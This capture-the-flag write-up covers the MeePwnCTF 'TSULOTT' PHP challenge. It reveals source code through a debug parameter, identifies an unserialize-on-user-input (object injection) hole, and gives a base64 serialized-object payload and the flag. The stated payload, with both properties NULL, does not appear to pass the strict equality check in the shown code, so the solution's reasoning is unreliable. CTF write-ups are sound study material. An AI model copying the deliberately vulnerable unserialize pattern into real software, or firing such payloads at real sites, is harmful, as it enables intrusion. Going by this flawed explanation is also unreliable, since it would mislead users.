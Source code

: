 # TSULOTT

**100 pts**

> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!

> Remote: [128.199.190.23:8001](128.199.190.23:8001)

---

# Writeups
![](https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/img/Screenshot_20170716_184808.png)

## Think simple
![](https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/img/Screenshot_20170714_204246.png)
- Lets check the source code from the web.
- Here we can see a comment,
    ```HTML
    <!-- GET is_debug=1 -->
    ```
    mmmm... why not [128.199.190.23:8001?is_debug=1](128.199.190.23:8001?is_debug=1).
- Awesome! now we can read the server code, it is written in PHP.

```php
<body> 
<style> 
input[type=text] { 
    width: 40%; 
    padding: 12px 20px; 
    margin: 8px 0; 
    box-sizing: border-box; 
    border: 2px solid red; 
    background-color: #ebfff8; 
    border-radius: 4px; 
} 

button[type=submit] { 
    width: 10%; 
    background-color: #F94848; 
    color: white; 
    padding: 14px 20px; 
    margin: 8px 0; 
    border: none; 
    border-radius: 4px; 
    cursor: pointer; 
} 

button[type=submit]:hover { 
    background-color: #45a049; 
} 

body { 
    background-image: url("money.jpg"); 
} 
</style> 

<?php 
class Object  
{  
  var $jackpot; 
  var $enter;  
} 
?> 


<?php 

include('secret.php'); 

if(isset($_GET['input']))   
{ 
  $obj = unserialize(base64_decode($_GET['input'])); 
  if($obj) 
  { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);  
    if($obj->enter === $obj->jackpot) 
    { 
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>"; 
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>"; 
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>"; 

    } 
    else 
    { 
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>"; 
    } 
  } 
  else 
  { 
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>"; 
  } 
} 
else 
{ 
  echo ""; 
} 
?> 
<center> 
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2> 
<p><p><font color='white'>Input your code to win jackpot!</font><p> 
<form> 
          <input type="text" name="input" /><p><p> 
          <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if (isset($_GET['gen_code']) && !empty($_GET['gen_code'])) 
{ 
  $temp = new Object; 
  $temp->enter=$_GET['gen_code']; 
  $code=base64_encode(serialize($temp));  
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>'; 
} 
?> 
<center> 
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font> 
<h3><font color='white'>Take code</font></h3><p> 
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p> 
<form> 
      <input type="text" name="gen_code" maxlength="17" /><p><p> 
      <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1') 
{ 
   show_source(__FILE__); 
} 
?> 
<!-- GET is_debug=1 --> 
</body> 
```

## Injection
The flag is rendered after this condition:
```php
if($obj->enter === $obj->jackpot)
```
Reading the PHP code we can notice the vulnerability. PHP Object Injection.
Get the input and try to unserialize it as an Object.
```php
$obj = unserialize(base64_decode($_GET['input']));
```
We need the enter value and the jackpot value of the object to be the same, but we will never manage to get it right. The object is serialized and then the jackpot attribute is setted as random.
```php
$obj = unserialize(base64_decode($_GET['input'])); 
if($obj) { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot);
...
}
```

Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL
    ```json
        INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
    ```
    ```json
        OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
    ```
    
## Win the lottery
Paste the output into the form and voilà:
```
MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}
```

![](https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/img/Screenshot_20170715_000809.png)
